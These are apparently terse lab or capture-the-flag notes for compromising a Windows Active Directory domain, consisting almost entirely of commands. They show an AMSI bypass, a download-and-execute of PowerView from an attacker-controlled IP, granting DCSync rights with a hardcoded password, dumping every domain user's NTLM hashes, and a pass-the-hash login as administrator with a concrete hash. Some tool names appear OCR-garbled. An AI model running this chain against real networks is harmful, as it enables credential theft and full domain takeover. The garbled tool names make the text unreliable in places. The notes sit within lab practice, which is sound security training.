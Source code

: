 # Windows

Bypass AMSI

Import PowerView first

```
PS C:\Users\svc-alfresco\Documents> menu
[+] Bypass-4MSI
[+] D11-Loader
[+1 Donut-Loader
[+] Invoke-Binary
PS C:\Users\svc-alfresco\Documents> Bypass-4MST
[+] Patched! :D
PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).
downloadstring('http://10.10.14.6/PowerView.ps1')
```



Add DCSync Rights

```
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```



GET NTLM Hashes for all domain users

```
secretsdump.py htb/john@10.10.10.161
```



Pass The Hash

```
psexec.py administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
